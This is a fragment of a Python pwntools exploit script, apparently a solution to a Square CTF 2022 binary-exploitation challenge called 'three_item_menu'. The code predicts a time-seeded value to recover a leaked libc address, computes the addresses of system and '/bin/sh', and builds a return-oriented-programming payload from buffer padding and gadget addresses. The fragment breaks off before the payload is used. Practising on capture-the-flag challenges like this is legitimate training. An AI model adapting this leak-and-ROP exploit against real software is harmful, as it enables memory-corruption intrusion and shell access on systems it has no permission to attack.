 ```
        p = remote("chals.2022.squarectf.com", 4099)
    else:
        p = process("./three_item_menu")

    if False:
        pause()
        gdb.attach(p, '''
        set follow-fork-mode child
        break *0x400a43
        continue
        ''')

    binary = ELF('./three_item_menu')
    if local:
        libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    else:
        libc = ELF('./libc.so.6')

    printf = libc.sym['printf'] # offset to printf
    __print(hex(printf))
    pop_rdi = 0x400a43
    pop_rsi_pop_r15 = 0x400a41
    puts_plt = binary.plt['puts']
    printf_got = binary.got['printf']

    seed = int(time.time()-1)
    seed = next_seed(seed)

    __print(p.recvuntil(b'> '))
    p.sendline(b'1')
    __print(p.recvuntil(b'> '))
    p.sendline(b'1')
    __print(p.recvuntil(b'up: '))
    leak = p.recvuntil(b'\n')[:-1].decode('utf-8')
    leak = (int(leak, 16) - seed) & 0xffffffff
    __print("leak: " + hex(leak))
    if leak & 0xfff == printf & 0xfff:
        __print('SUCCESS')
    else:
        __print('FAIL')

    libc_base = u64(leak.to_bytes(4, byteorder='little') + b'\x5e\x7f\x00\x00') - printf
    __print(hex(libc_base))
    system = libc_base + libc.sym['system']
    binsh = libc_base + next(libc.search(b'/bin/sh'))

    payload = b'A' * 48
    payload += struct.pack("<Q", 0)
    payload += struct.pack("<Q", pop_rsi_pop_r15)
    payload += struct.pack("<Q", 0x00601fe8)
    payload += struct.pack("<Q", 0x00)
    payload += struct.pack("<Q", pop_rdi)
    payload += struct.pack("<Q", 0x00601fe8)
    payload += struct.pack("<Q", 0x004005d0) #before read
    payload += struct.pack('<Q', 0x400630) # 0x0040077d # jump back to _start
    

    __print(p.recvuntil(b'> ').decode())
    p.send(b'2')
    print(p.recvuntil(b'on?').decode())
    p.send(b'99')
    print(p.recvuntil(b'> ').decode())
    print("HERE")
```